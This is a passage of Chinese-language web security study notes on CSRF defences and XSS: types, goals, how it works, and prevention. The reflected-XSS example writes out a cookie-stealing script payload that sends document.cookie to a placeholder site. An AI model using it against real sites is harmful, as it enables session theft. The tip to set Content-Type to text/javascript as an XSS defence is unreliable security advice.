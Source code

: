         如果是开发一个全新的系统，则抵御 CSRF 的选择要大得多。笔者建议对于重要的服务，可以尽量使用 XMLHttpRequest 来访问，
        这样增加 token 要容易很多。另外尽量避免在 js 代码中使用复杂逻辑来构造常规的同步请求来访问需要 CSRF 保护的资源，
        比如 window.location 和 document.createElement(“a”) 之类，这样也可以减少在附加 token 时产生的不必要的麻烦。
        
        最后，要记住 CSRF 不是黑客唯一的攻击手段，无论你 CSRF 防范有多么严密，如果你系统有其他安全漏洞，比如跨站域脚本攻击 XSS，
        那么黑客就可以绕过你的安全防护，展开包括 CSRF 在内的各种攻击，你的防线将如同虚设。
        ```

* XSS
    * 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
    * XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
        * XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。
        * 不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。
        * XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。
    * XSS通常可以分为两大类：
        * 一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
        * 另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。
    * XSS目前主要的手段和目的如下：
        ```
        盗用cookie，获取敏感信息。
        利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
        利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
        利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
        在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
        ```
    * XSS的原理
        * Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，
        并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。
    
        * 接下来以反射性XSS举例说明XSS的过程：
        ```
        现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
        hello astaxie
        
        如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,
        
        这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，
        
        如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'
        +document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，
        
        这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，
        
        你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，
        
        相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的
        
        工具来检查是否能盗取那个用户的账户。
        ```
    * 如何预防XSS
        * 很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。
        * 目前防御XSS主要有如下几种方式：
            * 过滤特殊字符
                * 避免XSS的方法之一主要是将用户所提供的内容进行过滤。
            * 使用HTTP头指定类型
                * header("Content-Type","text/javascript");
                * 这样就可以让浏览器解析javascript代码，而不会是html输出。
